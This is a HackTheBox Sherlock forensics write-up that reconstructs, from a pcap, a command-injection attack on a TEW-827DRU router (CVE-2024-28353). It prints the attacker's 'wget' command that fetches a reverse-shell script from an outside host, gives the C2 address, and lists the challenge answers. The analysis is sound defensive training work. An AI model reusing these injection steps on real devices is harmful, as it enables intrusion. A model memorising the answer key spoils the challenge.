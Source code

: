 # [HackTheBox Sherlocks - Trent](https://app.hackthebox.com/sherlocks/Trent)
Created: 17/02/2025 13:15
Last Updated: 19/02/2025 13:14
* * *
![ca4f203679a302944eaea19f43b49ca6.png](../../../_resources/ca4f203679a302944eaea19f43b49ca6.png)

**Scenario:**
The SOC team has identified suspicious lateral movement targeting router firmware from within the network. Anomalous traffic patterns and command execution have been detected on the router, indicating that an attacker already inside the network has gained unauthorized access and is attempting further exploitation. You will be given network traffic logs from one of the impacted machines. Your task is to conduct a thorough investigation to unravel the attacker's Techniques, Tactics, and Procedures (TTPs).

* * *
>Task 1: From what IP address did the attacker initially launched their activity?

We only have 1 pcap file to work with so after opened it on Wireshark, I realized that there are a lot of HTTP requests which mean the attacker might communicated with router vie web interface

![500fe7e8d09a47a878d1225b104a7eed.png](../../../_resources/500fe7e8d09a47a878d1225b104a7eed.png)

When the attacker sent anything to server, such as credential to login, file upload, command via webshell, the HTTP request method that used to carry out these activities are POST request

So I filtered with `http.request.method == POST` to only have HTTP POST requests then we could see total of 47 HTTP POST request but almost half of them are localhost sending to localhost (self) and from Network 101, we know that an IP address end with 1 is a gateway or a router in this case which make another IP address an IP address within the network and we could suspect it to be an IP address of the attacker.

![09d7721b0bc45ac5bb3ef222e6c4569e.png](../../../_resources/09d7721b0bc45ac5bb3ef222e6c4569e.png)

By trying to understand what happened, I kept inspecting each POST request which I finally found that potential command injection on the router so our hypothesis is confirmed at this point.

```
192.168.10.2
```

>Task 2: What is the model name of the compromised router?

![b993027582c0015846dfab2ce65c8355.png](../../../_resources/b993027582c0015846dfab2ce65c8355.png)

By searching for "model" string, we can see that there is model name of the router on defined on the web interface 

```
TEW-827DRU
```

>Task 3: How many failed login attempts did the attacker try before successfully logging into the router?

![4461dd4dea1c4dec15e44097dfe7b73c.png](../../../_resources/4461dd4dea1c4dec15e44097dfe7b73c.png)

Now after filter out localhost with `http.request.method == POST && ip.addr == 192.168.10.2` then by inspecting first 3 HTTP POST requests (/apply_sec.cgi), we could see that there are 2 attempts to login into the router before successfully logged with with admin user without a password.

```
2
```

>Task 4: At what UTC time did the attacker successfully log into the routers web admin interface?

![20b0143cb0735b0db632da044bcee9e0.png](../../../_resources/20b0143cb0735b0db632da044bcee9e0.png)
```
2024-05-01 15:53:27
```

>Task 5: How many characters long was the password used to log in successfully?	
```
0
```

>Task 6: What is the current firmware version installed on the compromised router?

![d40b4df9d4c4dd44a926a524fa99f5cf.png](../../../_resources/d40b4df9d4c4dd44a926a524fa99f5cf.png)

We can filter for "fw" or "version" string which will lead us that the js file that will get router information which the firmware version will be stored in `fw_ver`

![654a9cdd77bf7ab381349d7951890d9b.png](../../../_resources/654a9cdd77bf7ab381349d7951890d9b.png)

Now we know that this router shorten the string "firmware" to "fw" so we can continue to search with "fw" then we will see that current firmware version installed on the router right here.

```
2.10
```

>Task 7: Which HTTP parameter was manipulated by the attacker to get remote code execution on the system?

![e1833f6e9cf7eff9d1f2da83e9a60066.png](../../../_resources/e1833f6e9cf7eff9d1f2da83e9a60066.png)

From the task 1, we know that there was an os command injection attempts on `usbapps.config.smb_admin_name` parameter 

![1ff0c01390077165d27cef040db6a4c2.png](../../../_resources/1ff0c01390077165d27cef040db6a4c2.png)

We can also confirm the other POST command with different payload, on this case we can see that the attacker tried to download bash script from the attacker IP address on port 8000.

![cea1b390d44eb0ec8e818ce203a6d730.png](../../../_resources/cea1b390d44eb0ec8e818ce203a6d730.png)

I made life easier by opened this pcap file on NetworkMiner than by filtered with common strings in os command injection payload we found then we will see that the attacker tried to download this bash script many times and once it got downloaded then the attacker used bash to execute it  

```
usbapps.config.smb_admin_name
```

>Task 8: What is the CVE number associated with the vulnerability that was exploited in this attack?

![93bedc9109b0ed3ed11cfb164e3573f0.png](../../../_resources/93bedc9109b0ed3ed11cfb164e3573f0.png)

We have to approach here, by filtering for router model and firmware or by filtering for vulnerable parameter which will lead to one CVE which is [CVE-2024-28353 command injection vulnerability](https://warp-desk-89d.notion.site/TEW-827DRU-5c40fb20572148f0b00f329d69273791).


```
CVE-2024-28353
```

>Task 9: What was the first command the attacker executed by exploiting the vulnerability?

![155f9c86c4056ffb8177e32dab26bb5c.png](../../../_resources/155f9c86c4056ffb8177e32dab26bb5c.png)
We know that the first command that the attacker tested and executed is `whoami`

```
whoami
```

>Task 10: What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?

![e100d8842a11a63f3855f0dd20fc9cfe.png](../../../_resources/e100d8842a11a63f3855f0dd20fc9cfe.png)

As we can see that the attacker tried to download file from both external host and internal host 

```
wget http://35.159.25.253:8000/a1l4m.sh
```

>Task 11: Multiple attempts to download the reverse shell from an external IP failed. When the actor made a typo in the injection, what response message did the server return?	


![a639b1ecacb98acad8491281499ff919.png](../../../_resources/a639b1ecacb98acad8491281499ff919.png)

We can see that there is a little different on the command to get bash script from an external host right here so i suspected that this must be the typo made by the attacker.

![b7cf3c2119791c3bced97427a05df08b.png](../../../_resources/b7cf3c2119791c3bced97427a05df08b.png)

Lets go back to Wireshark, we can see the same payload on packet number 51885 so lets follow the stream of this request.

![b8b52ac1f3ee6e983d663dd7bfbbf1ee.png](../../../_resources/b8b52ac1f3ee6e983d663dd7bfbbf1ee.png)

Look at the HTTP response, then we can see the error message right here.

```
Access to this resource is forbidden
```

>Task 12: What was the IP address and port number of the command and control (C2) server when the actor's reverse shell eventually did connect? (IP:Port)

![1fbe192ee598b128f5bd04c728aaea91.png](../../../_resources/1fbe192ee598b128f5bd04c728aaea91.png)

We have 2 approaches on this question, since we know that the file was requested via HTTP then we could use Wireshark to export HTTP object right here.

![28b339c6ffda65355d93fe89294d7abd.png](../../../_resources/28b339c6ffda65355d93fe89294d7abd.png)

But i don't want to export it so I clicked the object which lead me to packet number 74345 and then I followed HTTP/TCP stream and inspect the response from the attacker machine which is the content of bash script and as we can see on the image that this is reverse shell command to connect to an external IP address on port 41143

![ad08a1ca00b3ca909ea19789410d004c.png](../../../_resources/ad08a1ca00b3ca909ea19789410d004c.png)

Take an extra step to filter on this port but evidently, there is no any packets from this filter so we can assume that the attacker failed to establish reverse shell connection from the script.

![3bff12aa938811e26589239ee37042c7.png](../../../_resources/3bff12aa938811e26589239ee37042c7.png)

Now, we came to the second approach that is using NetworkMiner and it will assemble files within pcap automatically upon opening the pcap file so if we opened the file from NetworkMiner then we will also have the same script we found earlier as well.

```
35.159.25.253:41143
```

![14d2784a332c149451fb30174a4677e6.png](../../../_resources/14d2784a332c149451fb30174a4677e6.png)
https://labs.hackthebox.com/achievement/sherlock/1438364/841
* * *
